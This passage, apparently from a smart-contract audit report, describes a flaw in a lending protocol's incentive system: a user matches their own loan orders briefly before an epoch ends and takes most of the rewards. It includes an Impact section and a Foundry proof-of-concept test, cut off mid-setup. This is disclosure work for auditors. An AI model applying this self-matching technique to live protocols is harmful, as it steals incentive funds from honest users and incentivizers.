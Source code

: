 ### Impact

The goal of incentives—to foster widespread engagement and utilization of the platform's financial offerings—is not achieved, rendering them useless. Malicious users exploit the system to maximize their incentives by simply matching their own orders for a few seconds.

Over time, more users become aware of this exploit and begin doing the same. As a result, users who use the protocol as intended are unable to claim their incentives and are effectively penalized by the actions of malicious users.

The initial purpose of the incentives is undermined as users realize it is not worth interacting with incentivized pairs. They earn little to no rewards because malicious users drive their shares close to zero. Ultimately, incentives are merely rewarded to users who match their own orders for a brief moment, such as one second.
Therefore, the funds of the incentivizers will be lost as they do not achieve their goal and are simply donations to malicious users.

### PoC

Add the following test to `MultipleLoansDuringIncentives.t.sol`:

```solidity
function testManipulateIncentives() public {
    // token pair is incentivized
    incentivize(AERO, AERO, USDC, true, 1000e18, 2);
    vm.warp(block.timestamp + 15 days);
    // non-malicious users interact with that pair to gain incentives
    createLoan(borrower, firstLender, AERO, AERO);
    createLoan(borrower, secondLender, AERO, AERO);

    // 10 seconds before the epoch ends, a malicious user steps in and creates a loan
    // to gain the majority of the incentives
    vm.warp(block.timestamp + 1123190);

    vm.startPrank(thirdLender);
    deal(AERO, thirdLender, 1000e18, false);
    deal(AERO, thirdLender, 1000e18, false);
    IERC20(AERO).approve(address(DBOFactoryContract), 1000e18);
    bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
    uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
    uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
    uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
    uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
    bool[] memory oraclesActivatedLenders = allDynamicData
        .getDynamicBoolArray(1);

    address[] memory acceptedPrinciples = allDynamicData
        .getDynamicAddressArray(1);
    address[] memory acceptedCollaterals = allDynamicData
        .getDynamicAddressArray(1);
    address[] memory oraclesCollateral = allDynamicData
        .getDynamicAddressArray(1);
    address[] memory oraclesPrinciples = allDynamicData
        .getDynamicAddressArray(1);

    // set the values for the loan
    ltvs[0] = 10000;
    acceptedPrinciples[0] = AERO;
    acceptedCollaterals[0] = AERO;
    oraclesActivated[0] = true;
    ratio[0] = 1e18;

    oraclesPrinciples[0] = DebitaChainlinkOracle;
    oraclesCollateral[0] = DebitaChainlinkOracle;

```